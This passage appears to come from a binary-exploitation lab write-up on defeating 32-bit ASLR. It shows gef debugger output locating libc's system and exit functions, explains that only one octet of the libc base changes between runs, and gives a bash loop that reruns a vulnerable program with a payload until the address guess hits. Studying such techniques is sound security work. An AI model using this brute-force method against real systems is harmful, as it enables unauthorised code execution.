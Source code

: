 ```bash
0xf7d|75|000 0xf7d|98|000 0x00000000 r-- /usr/lib32/libc.so.6
0xf7c|f6|000 0xf7d|19|000 0x00000000 r-- /usr/lib32/libc.so.6
```
*Only one octet changes each time the program runs with ASLR activated


```bash
gef➤  p system
$3 = {<text variable, no debug info>} 0xf7d45560 <system>
gef➤  xinfo 0xf7d45560
────────────────────────────────────────────── xinfo: 0xf7d45560 ──────────────────────────────────────────────
Page: 0xf7d19000  →  0xf7e97000 (size=0x17e000)
Permissions: r-x
Pathname: /usr/lib32/libc.so.6
Offset (from page): 0x2c560
Inode: 0
Segment: .text (0xf7d191b0-0xf7e96f19)
Offset (from segment): 0x2c3b0
Symbol: system


gef➤  p exit
$4 = {<text variable, no debug info>} 0xf7d34290 <exit>
gef➤  xinfo 0xf7d34290
────────────────────────────────────────────── xinfo: 0xf7d34290 ──────────────────────────────────────────────
Page: 0xf7d19000  →  0xf7e97000 (size=0x17e000)
Permissions: r-x
Pathname: /usr/lib32/libc.so.6
Offset (from page): 0x1b290
Inode: 0
Segment: .text (0xf7d191b0-0xf7e96f19)
Offset (from segment): 0x1b0e0
Symbol: exit
```

### Bruteforcing ASLR

* Only one octet changes each time the ASLR is activated
* We wanna target the system and exit functions
* Need to take into account that the offset is ALWAYS the same

=> we just need to bruteforce the libc base address by setting up a base address for it that we collected at one point, run an infinite loop on it until it matches the actual libc address used by the vulnerable program


```bash
$ while [ True ]; do ./vulnerable $(cat payload); done
```
